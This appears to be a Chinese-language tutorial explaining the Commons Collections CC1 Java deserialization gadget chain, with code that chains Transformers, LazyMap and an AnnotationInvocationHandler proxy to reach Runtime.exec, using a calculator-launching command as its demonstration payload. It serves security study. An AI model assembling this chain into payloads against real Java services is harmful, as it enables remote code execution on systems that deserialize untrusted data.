 ConstantTransformer实现了Transformer接口，作用是返回一个对象：
```java
public ConstantTransformer(Object constantToReturn) {
    this.iConstant = constantToReturn;
}

public Object transform(Object input) {
    return this.iConstant;
}
```
使用方法：
```java
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
Object transform = constantTransformer.transform(Object.class);
Class<?> aClass = transform.getClass();
Method exec = aClass.getMethod("exec", String.class);
exec.invoke(transform, "open /Applications/Calculator.app");
```

InvokerTransformer也实现了Transformer接口，作用是通过反射执行任意方法：
```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}

public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var4) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var6);
        }
    }
}
```
使用方法：
```java
InvokerTransformer ivtransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/Calculator.app"});
ivtransformer.transform(Runtime.getRuntime());
```

将二者结合：
```java
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
InvokerTransformer ivtransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/Calculator.app"});
ivtransformer.transform(constantTransformer.transform(1));
```

ChainedTransformer实现了Transformer接口，用于链接多个Tranformer，并以链式调用：
```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```

由于Runtime没有实现Serializable接口，所以需要用Runtime.class：
```java
Method getRuntime = Runtime.class.getMethod("getRuntime", null);
Object runtime = getRuntime.invoke(Runtime.class, null);
Method exec = runtime.getClass().getMethod("exec", String.class);
exec.invoke(runtime, "open /Applications/Calculator.app");
```

对应到ChainedTransformer，应该是：
```java
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
InvokerTransformer getRuntime1 = new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",new Class[0]});
InvokerTransformer invoke = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null,null});
InvokerTransformer exec2 = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/Calculator.app"});

Object transform = constantTransformer.transform(1);
Object transform1 = getRuntime1.transform(transform);
Object transform2 = invoke.transform(transform1);
Object transform3 = exec2.transform(transform2);
```

现在我们已经有了任意代码执行的方法，如何在反序列化时调用ChainedTransformer呢？LazyMap的get方法调用了transformer：
```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    private static final long serialVersionUID = 7990956402564206740L;
    protected final Transformer factory;

    public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }
    .....

    public Object get(Object key) {
        if (!this.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            this.map.put(key, value);
            return value;
        } else {
            return this.map.get(key);
        }
    }
}
```
在decorate时就定义factory，类型是Transformer。  
因此构造起来很轻松。

那么谁调用了LazyMap.get呢？AnnotationInvocationHandler.invoke方法。

但是AnnotationInvocationHandler.readObject并没有调用invoke方法。不过，他调用了this.memberValues的entrySet方法：
```java
Iterator var4 = this.memberValues.entrySet().iterator();
```
如果this.memberValues是LazyMap呢？

但AnnotationInvocationHandler反序列化并不会直接调用invoke方法，这时，可以用动态代理来完成，通过劫持LazyMap，于是反序列化时，会调用this.memberValues.entrySet，this.memberValues就是LazyMap，由于他已经被AnnotationInvocationHandler劫持了，所以他的任何方法执行都会进入AnnotationInvocationHandler.invoke，攻击链也就形成了。

```java
AnnotationInvocationHandler.readObject() -> LazyMap.entrySet -> invoke()
    -> LazyMap.get()
        -> ChainedTransformer.transformer()
            -> ConstantTransformer.transformer()
            -> InvokerTransformer.transformer() -> Method.invoke()
                -> Class.getMethod()
                -> InvokerTransformer.transformer() -> Method.invoke()
                    -> Method.invoke()
                    -> InvokeTransformer.transformer() -> Method.invoke()
                        -> Runtime.exec()
```

完整代码见于GenCC1.java，实验时将序列化与反序列化两步分开。

需要注意的是，由于LazyMap已经被劫持了，因此后续的任何操作都会触发Gadget的执行，即使是在IDEA中调试，也会发现常常还没writeObject就已经弹计算器了。

# 参考文献

* P牛--Java安全漫谈